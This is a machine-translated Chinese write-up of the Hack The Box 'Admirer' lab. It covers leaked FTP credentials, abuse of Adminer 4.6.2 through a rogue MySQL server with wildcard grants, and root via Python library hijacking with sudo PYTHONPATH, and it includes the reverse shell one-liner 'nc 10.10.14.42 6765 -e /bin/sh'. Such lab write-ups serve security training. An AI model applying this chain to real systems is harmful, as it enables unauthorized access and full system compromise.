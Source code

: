 # HTB 的崇拜者

> 原文：<https://infosecwriteups.com/htb-admirer-writeup-171abd8d399c?source=collection_archive---------1----------------------->

## 敏感文件泄露| Python 库劫持

![](img/6bee9c571b639b32f2a85a8e40192906.png)

# **总结:**

对于该机器，使用`gobuster`命令暴露了访问开放 FTP 端口的凭据，这导致发现了易受攻击的 MySQL 数据库，该数据库允许外部服务器导入暴露凭据的任意数据。也就是说，您可以实现一个本地数据库和表，授予完全权限，并将其连接到易受攻击的 MYSQL 数据库。

对于 root 用户，发现一个脚本使用`sudo`命令作为 root 用户执行。查看脚本代码后，Python 库劫持技术被尝试提升权限以获取 root 用户。

## 使用的工具:

*   `Nmap`
*   `gobuster`
*   `gunzip`和`tar -xvf`
*   `mysql -h localhost -u <username> -p`
*   `sudo -l`
*   `nc`
*   自定义 python 脚本漏洞利用

# 列举

**Nmap TCP 输出**

![](img/479a1c2384c26501fafe77e074e3d3ef.png)

*** * * * * * * * * * * *端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在 robots.txt 文件中找到了 **/admin-dir** 目录。

![](img/84c902ac6be8dd471afad50c9570f9ce.png)

看起来/admin-dir 有些有趣的东西。

![](img/2ba903d7fe5d5abeca5d5dec80199f2f.png)

我运行`gobuster`来查找 **/admin-dir** 目录中的内容，但是没有一个 wordlist 脚本能够找到另一个子目录。

***注意:*** *在 robots.txt 文件内，Waldo 提到/admin-dir 包含' contact '和' creds '。*

![](img/846bc40a5e502c0a5ad66f1f721a3cb5.png)

**‘contacts . txt’**和 **credentials.txt** 文件包含用户名和密码。

*** * * * * * * * * * * *端口 21 FTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

我们知道 ftp 端口是打开的，所以我们可以使用它的凭证登录。

![](img/0d2d5cc1d196bce178ecb1c801255fa8.png)

输入`get dump.sql`和`get html.tar.gz`命令下载这些文件。

使用命令提取**html.tar.gz**文件的内容:

> `gunzip html.tar.gz`
> 
> `tar -xvf html.tar`

**你得到:**

![](img/0f79875cb9a908ac0723ebbf10ec680f.png)

在查看所有的**子目录**时，我注意到在**实用程序脚本**文件夹中的 **db_admin.php** 中有一些东西，请阅读以下注释:

![](img/dcecff307b36f95fb0bc9e7400014a1e.png)

查看下面来自 [w3schools](https://www.w3schools.com/php/php_mysql_create.asp) 的**示例 db_admin.php** ，我们可以看到**‘database’**名称缺少**，因为它不是在 db_admin.php 下创建的。**

![](img/398322c74501b085b11e25608fe9902c.png)

基本上**<DatabaseLoginPortalName>。php** 不见了。我们在 **/utility-scripts 中使用`gobuster` 运行一个搜索。**

![](img/c4613a09006c2219e04ab8c7d3c8570b.png)

找到的**数据库登录门户**名称为**adminer.php**

***注:*** *管理员版本 4.6.2*

由于未创建数据库，找到的所有凭据都不适用于此数据库登录门户。

![](img/6bdd55444195b6a39a0d0345aee4ca1d.png)

# **立足点**

[**管理员版本 4.6.2**](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability) 易受错误配置系统的攻击，攻击者会让管理员连接到其本地 mysql 服务器。该网站引用“Adminer 然后将连接到外部服务器，使用凭证登录，并立即从服务器接收特定文件的数据导入请求。”

**在攻击者机器上运行以下命令:**

*   `sudo service mysql start`
*   `sudo mysql`

登录后，创建用户并授予我们将创建的新数据库的所有权限。

*   `CREATE DATABASE admirerExposed;`
*   `SHOW DATABASES;`
*   `USE admirerExposed;`
*   `CREATE TABLE tableTEST(columnTest varchar(5000));`

![](img/51deec48d452c9e31723dd8e2ded8c79.png)![](img/dc7c32facd2b6f72e188625e48fe531f.png)![](img/ab8c8281cba7c66678e9793c3e682d0b.png)

mysql 的下一步:

`GRANT ALL PRIVILEGES ON admirerExposed.* TO ‘testName’@’%’ IDENTIFIED BY ‘testPassword’;`

使用命令`SELECT user FROM mysql.user;`检查用户列表

![](img/cebffb3a8a3143eb150c8b3d3eb60d78.png)

现在在**/etc/MySQL/Maria db . conf . d/50-server . CNF**文件中，将**绑定地址**更改为 **0.0.0.0** 以允许来自远程主机的连接。

![](img/22c1f897fa171a175742ab65c3049b0f.png)

最后，来自 mysql 的`exit`和`sudo service mysql restart`

现在，运行一个测试，看看通过' **localhost** 和' **remote server** 登录是否有效，因为我们使用了通配符`**%**` ，它允许从任何远程主机连接。

![](img/94f60a1c684c8a078ad409c16f622a35.png)

# **反壳**

下面，我使用 HTB 的 IP 地址 10.10.14.42 作为我修改后的 mysql 服务器。

![](img/116182761899c12b38a554ffb495c9e5.png)![](img/756d133ac78987ead1e3e6eb2ef448fe.png)![](img/209a6d6c5553d876fa31d541fa3fa264.png)![](img/45c76d2b36cec07e344acd638485f1dc.png)

## 权限提升

现在我们有了用户，通过一些基本的检查，我们可以看到*/opt/scripts/admin _ tasks . sh*已经被授权通过`sudo`命令作为根用户执行。

![](img/93f4f622008aa552a299a9c73da7f19b.png)

在没有`sudo`命令的情况下运行脚本，看看它是如何工作的，然后用`sudo`命令运行。

![](img/061aa43a918799b67efaf43274897d75.png)![](img/108be765192706b965f0abe34e5c0586.png)

在 *admin_task.sh* 代码中，我们可以看到' *backup_web* '函数正在调用 */opt/scripts/backup.py* 脚本并执行它。

![](img/0dc7bd8b6652c548ce5ad5564af8b62a.png)

查看下面的脚本， [Python 库劫持](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)文章通过光栅化提到了如何伪造类似的 Python 库文件名以包含恶意模块来提升权限。

![](img/629b549c1cd46f818935b555f3887168.png)

后援。当用户点击数字 6 时，备份 Web 数据调用的 PY 脚本。

创建一个简单的反向 shell 脚本:`nc 10.10.14.42 6765 -e "/bin/sh"`

![](img/f149aa6b821e1b7623b169a00fe3dacd.png)

恶意库文件“SHUTIL。“PY”被创建，并在备份的模块“MAKE_ARCHIVE()”中包含恶意负载。PY 导入并执行。

`sudo PYTHONPATH=/tmp/ko /opt/scripts/admin_tasks.sh`

当用户使用`sudo`命令执行*opt/scripts/admin _ tasks . sh*并输入‘6’(备份 Web 数据)时，执行/opt/scripts/backup.py 脚本，然后使用给定路径`PYTHONPATH=/tmp/ko`调用 python 库文件‘shutil . py’并导入定制的恶意模块‘make _ archive()’。这就是执行/bin/bash 的方式，我们得到如下所示的 shell。

![](img/c96a0b340a36ff4829f9e2e94c6d6867.png)![](img/4c77f8f448d7c45cfff909e5399d0d0a.png)